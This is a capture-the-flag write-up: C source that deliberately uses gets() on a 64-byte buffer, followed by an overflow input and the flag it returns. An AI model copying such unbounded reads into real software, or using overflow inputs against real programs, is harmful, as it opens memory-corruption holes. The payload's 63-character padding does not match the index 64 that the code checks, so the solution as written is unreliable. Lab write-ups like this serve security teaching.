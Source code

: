 # Katipwnan Bomb

## Problem
### chal.c contents:
```C
#include <stdio.h>

void get_flag() {
    FILE *f = fopen("./flag.txt", "r");
    char buf[200];
    fgets(buf, 200, f);
    printf("%s\n", buf);
    fclose(f);

    return;
}

int main(void) {
    setbuf(stdout, NULL);

    puts("Bomb is 64 in size and 'ret' is the ending command to fire, also this is not valorant...");
    printf("Plant the spike: ");
    char buf[64];
    gets(buf);

    if (buf[64] == 'r' && buf[65] == 'e' && buf[66] == 't') {
        printf("All right!\nHere is your flag: ");
        get_flag();
    } else {
        printf("Try again!\n");
    }
    
    return 0;
}
```
## Solution
The goal is to bypass the program by setting the values at the addresses after the bomb's location to ret. To do so, we need to fill the entire bomb, then the extra characters will the values set to the addresses after the bomb. So I inputed this in the program to get the flag:

```txt
012345678901234567890123456789012345678901234567890123456789012ret
```

Which outputs:

```txt
All right!
Here is your flag: CITU{k4tipwn4n_0v3rfl0w_b0mb_4ctiv4t3d_BO000000M!!}
```

[**Back to Home**](/)